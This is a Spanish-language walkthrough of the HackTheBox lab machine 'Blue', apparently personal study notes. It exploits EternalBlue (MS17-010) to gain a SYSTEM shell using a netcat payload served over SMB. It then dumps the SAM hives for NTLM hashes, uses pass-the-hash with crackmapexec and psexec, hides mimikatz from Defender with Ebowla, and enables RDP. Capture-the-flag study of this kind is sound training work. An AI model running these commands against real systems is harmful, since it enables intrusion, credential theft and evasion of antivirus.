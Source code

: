 # Blue

Tags: [[_cve]],[[_persistenceTechniques]]

## Primeros pasos
(Reconocimiento).

<span style="color:#07b4f2">Organizamos</span> <span style="color:#ff2dc0">TMUX</span>.
<span style="color:#07b4f2">Activamos</span> <span style="color:#ff2dc0">VPN</span>.

Le <span style="color:#07b4f2">hacemos</span> un <span style="color:#ff2dc0">ping</span> <span style="color:#07b4f2">a</span> la <span style="color:#ff2dc0">máquina</span>. (<span style="color:#379075">Está activa o no</span>).
<span style="color:#bef202">Posible</span> <span style="color:#ff2dc0">máquina Windows</span>.

<span style="color:#07b4f2">Ponemos</span> la <span style="color:#ff2dc0">IP</span> de la <span style="color:#ff2dc0">máquina</span> <span style="color:#07b4f2">en</span> un <span style="color:#07b4f2">lugar visible</span>.
<span style="color:#07b4f2">Creamos</span> un <span style="color:#07b4f2">directorio</span> <span style="color:#07b4f2">como</span> la <span style="color:#ff2dc0">IP</span> o <span style="color:#07b4f2">nombre</span> de la <span style="color:#ff2dc0">máquina</span>.
<span style="color:#07b4f2">Creamos</span> los <span style="color:#07b4f2">directorios</span> de <span style="color:#07b4f2">trabajo</span>.

<span style="color:#bef202">Empezamos el escaneo con</span> <span style="color:#ff2dc0">NMAP</span>. <span style="color:#379075">Otro escaneo de puertos comunes por posibles falsos negativos</span>.
En este caso <span style="color:#07b4f2">no buscamos</span> <span style="color:#ff2dc0">codename</span> con <span style="color:#ff2dc0">launchpad</span>.

+ <span style="color:#ff669c">Puertos abiertos</span>

<span style="color:#ff669c">135</span> - RPC.
<span style="color:#ff669c">139</span> - NetBios.
<span style="color:#ff669c">445</span> - SMB. <span style="color:#379075">Windows 7</span>.
Y <span style="color:#07b4f2">más desde</span> el <span style="color:#ff669c">49152</span> en <span style="color:#07b4f2">adelante</span>.


## Investigación (Intrusión)
(Reconocimiento/Enumeración).

<span style="color:#ff669c">445</span>.
Vemos que es un<span style="color:#ff2dc0"> Windows 7</span>, <span style="color:#07b4f2">probemos</span> si es vulnerable al <span style="color:#ff2dc0">Eternal Blue</span>.
<span style="color:#88c425">nmap --script="vuln and safe" -p445 10.10.10.40  -oN EBscan</span>:    <span style="color:#ff2dc0">vulnerable</span>.

<span style="color:#88c425">Clonamos</span> https://github.com/worawit/MS17-010
<span style="color:#88c425">python checker.py 10.10.10.40</span> :    con <span style="color:#ecacb6">python2.7</span> 
<span style="color:#07b4f2">No detecta</span> <span style="color:#ff2dc0">named pipes</span>, pero si <span style="color:#07b4f2">modificamos</span> el <span style="color:#ff2dc0">script</span> y ponemos<span style="color:#ecacb6"> USERNAME = 'guest'</span> sí funciona.

<span style="color:#07b4f2">Usamos</span> el <span style="color:#ecacb6">42315.py</span>, es el que <span style="color:#07b4f2">está</span> en <span style="color:#ff2dc0">searchsploit</span>, <span style="color:#379075">y lo metemos en el directorio MS17-010</span>.
<span style="color:#07b4f2">Modificamos</span> el <span style="color:#ecacb6">42315.py</span>
<span style="color:#ff2dc0">Comentamos</span> y <span style="color:#ff2dc0">descomentamos</span> lo <span style="color:#07b4f2">importante</span>.
![Pruebas](../images/Pasted image 20241208105113.png)

Creamos un <span style="color:#ff2dc0">recurso compartido a nivel de red</span>, <span style="color:#07b4f2">ofreciendo</span> el <span style="color:#ecacb6">nc.exe</span>
Nos ponemos en <span style="color:#ff2dc0">escucha</span> por el <span style="color:#ff669c">puerto</span> especificado.
Ejecutamos el <span style="color:#ff2dc0">script</span>
<span style="color:#88c425">python 42315.py 10.10.10.40</span> :    y pa deeentro.


## Escalada

Enumerar todo el sistema.
Estamos como el usuario <span style="color:#ecacb6">nt authority\system</span> debido a que al <span style="color:#ff2dc0">explotar</span> el <span style="color:#ff2dc0">Eternal Blue</span>, se gana <span style="color:#07b4f2">acceso</span> como el <span style="color:#ecacb6">usuario</span> <span style="color:#ff2dc0">privilegiado</span>.

Fin.

<span style="color:#bef202">EXTRA</span>.
<span style="color:#ecacb6">1.-</span> <span style="color:#07b4f2">Obtener</span> <span style="color:#ff2dc0">Hashes NTLM</span>.
En <span style="color:#ff2dc0">máquina víctima</span>.
<span style="color:#88c425">reg save HKLM\sam sam.backup</span>
<span style="color:#88c425">reg save HKLM\system system.backup</span>

En <span style="color:#07b4f2">mi</span> <span style="color:#ff2dc0">máquina</span>.
Creo un <span style="color:#ff2dc0">recurso compartido</span> a nivel de red <span style="color:#07b4f2">por</span> <span style="color:#ff2dc0">SMB</span>.

En <span style="color:#ff2dc0">máquina víctima</span>.
<span style="color:#07b4f2">Me los</span> <span style="color:#ff2dc0">transfiero</span>.

En <span style="color:#07b4f2">mi</span> <span style="color:#ff2dc0">máquina</span>.
<span style="color:#88c425">impacket-secretsdump -sam sam.backup -system system.backup LOCAL</span>
![Pruebas](../images/Pasted image 20241208125302.png)

<span style="color:#88c425">crackmapexec smb 10.10.10.40 -u 'administrator' -H 'cdf51b162460b7d5bc898f493751a0cc' --lsa</span> :    <span style="color:#07b4f2">tratar</span> de <span style="color:#07b4f2">ver</span> <span style="color:#ff2dc0">credenciales</span> en <span style="color:#ff2dc0">texto claro</span>.

<span style="color:#88c425">impacket-psexec WORKGROUP/Administrator@10.10.10.40 -hashes :cdf51b162460b7d5bc898f493751a0cc</span> :    <span style="color:#ff2dc0">conectarme</span> <span style="color:#07b4f2">con</span> <span style="color:#ff2dc0">psexec</span> 


<span style="color:#ecacb6">2.-</span><span style="color:#ff2dc0"> Dumpear credenciales </span><span style="color:#07b4f2">de</span> la <span style="color:#ff2dc0">memoria</span>.
En <span style="color:#07b4f2">mi</span> <span style="color:#ff2dc0">máquina</span>.
<span style="color:#ff2dc0">Ebowla</span> para <span style="color:#07b4f2">eludir</span> el <span style="color:#ff2dc0">Defender</span>.
Clonamos https://github.com/Genetic-Malware/Ebowla
<span style="color:#88c425">mv mimikatz.exe Ebowla</span>
<span style="color:#88c425">cd Ebowla</span>
<span style="color:#88c425">vim genetic.config</span>
<span style="color:#ecacb6">output_type = GO</span>
<span style="color:#ecacb6">payload_type = EXE</span>

<span style="color:#ecacb6">[[ENV_VAR]]</span> :    hay que <span style="color:#07b4f2">ponerlas bien</span>, porque <span style="color:#07b4f2">se toman</span> las <span style="color:#ff2dc0">variables de entorno</span> de la <span style="color:#07b4f2">propia</span> <span style="color:#ff2dc0">máquina</span> para lograr <span style="color:#07b4f2">subir</span> el <span style="color:#ff2dc0">archivo</span> deseado.
Con <span style="color:#07b4f2">estas</span> son <span style="color:#07b4f2">suficientes</span>.
![Pruebas](../images/Pasted image 20241208132242.png)

Necesita <span style="color:#ecacb6">python2</span>, hago
<span style="color:#88c425">cp -r /home/joelkami/Documentos/HTB/Maquinas/Blue/content/Ebowla .</span> :    <span style="color:#07b4f2">lo llevo a</span> mi <span style="color:#ff2dc0">entorno virtual</span>.
<span style="color:#88c425">pip install configobj</span> :    lo necesita.
<span style="color:#88c425">apt install mingw-w64</span> :    lo necesita.

<span style="color:#88c425">python ebowla.py mimikatz.exe genetic.config</span> 
<span style="color:#88c425">./build_x64_go.sh output/go_symmetric_mimikatz.exe.go final_mimi.exe</span>
<span style="color:#88c425">ls output/final_mimi.exe</span> :    ya lo podríamos <span style="color:#ff2dc0">subir</span> <span style="color:#07b4f2">a</span> la <span style="color:#ff2dc0">máquina víctima</span>.

En <span style="color:#ff2dc0">máquina víctima</span>.
<span style="color:#88c425">final_mimi.exe</span> :    entramos a una <span style="color:#ff2dc0">sesión interactiva</span>.
<span style="color:#88c425">privilege::debug</span>
<span style="color:#88c425">sekurlsa::logonPasswords</span>
Y podríamos <span style="color:#07b4f2">ver</span> las <span style="color:#ff2dc0">credenciales</span> en <span style="color:#07b4f2">claro</span>.


<span style="color:#ecacb6">3.-</span> <span style="color:#ff2dc0">Habilitar</span> y <span style="color:#ff2dc0">conectarnos</span> <span style="color:#07b4f2">por</span> <span style="color:#ff2dc0">RDP</span>.
<span style="color:#88c425">crackmapexec smb 10.10.10.40 -u 'administrator' -p 'ejfnIWWDojfWEKM' -M rdp -o action=enable</span> :    usamos un <span style="color:#ff2dc0">módulo</span> de <span style="color:#ff2dc0">crackmapexec</span> para <span style="color:#07b4f2">habilitar</span> el <span style="color:#ff2dc0">RDP</span>.

<span style="color:#88c425">rdesktop 10.10.10.40 -u 'Administrator' -p 'ejfnIWWDojfWEKM'</span> 


<span style="color:#ecacb6">4.-</span> <span style="color:#ff2dc0">Persistence</span> (<span style="color:#379075">intrusive</span>).
En <span style="color:#ecacb6">Vulnerabilidades y Temas/Persistence Techniques/Persistence CheatSheets</span> <span style="color:#07b4f2">tenemos</span> distintas <span style="color:#07b4f2">vías</span>.
